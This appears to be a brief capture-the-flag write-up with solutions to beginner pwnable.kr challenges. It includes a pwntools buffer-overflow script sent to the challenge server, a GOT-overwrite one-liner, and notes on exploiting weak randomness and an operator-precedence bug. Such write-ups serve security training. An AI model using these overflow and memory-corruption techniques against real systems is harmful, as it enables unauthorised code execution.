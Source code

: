 All the challenge is accessible in pwnablr.kr.

# fd

When the file fd equals to 0, the read() will get string from standard input. So just type `4660` which equals to `0x1234`

# collision
It converts `char*` to `int*`, which means that if we type `./col ABCDEFGHIJKLMNOPQRST`, it will becomes number like `0x44434241 0x47464544 0x51504948 0x54535251 0x58585655`(little endian). Just find appropriate number to crack it.

# bof
Simple Overflow:
```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline('\xbe\xba\xfe\xca'*15)
c.interactive()
```

# passcode
Notice that the value passed to *scanf* is not a pointer and it’s without default value. We can first use `stack(buf[100])` to write the default value and then overwrite GOT table:
```bash
(python -c 'print "0"*96+"\x04\xa0\x04\x08"+"134514135"') | ./passcode
```

# random
The random() in glib is pseudo-random. So, the first value is always `0x6b8b4567`. Just simply brute-force the xor value.

# input
Just use pipe, nano, and nc to give input

# leg
*PC* always points to the next instruction, while *lr* points to the return address. By adding the offset, we can simply can get the result.

# mistake
Let’s first have a look at `fd=open("/home/mistake/password",O_RDONLY,0400) < 0`. Because `<` is prior to `=`, fd will always be 0 while opening a file successfully. `fd=0` means that `read(fd,pw_buf,PW_LEN)` will always read stdin input. We just need to calculate `xor(buf2,10)` and give its result in stdin.
e.g.
```
do not bruteforce...
1111111111
input password : 0000000000
Password OK
```
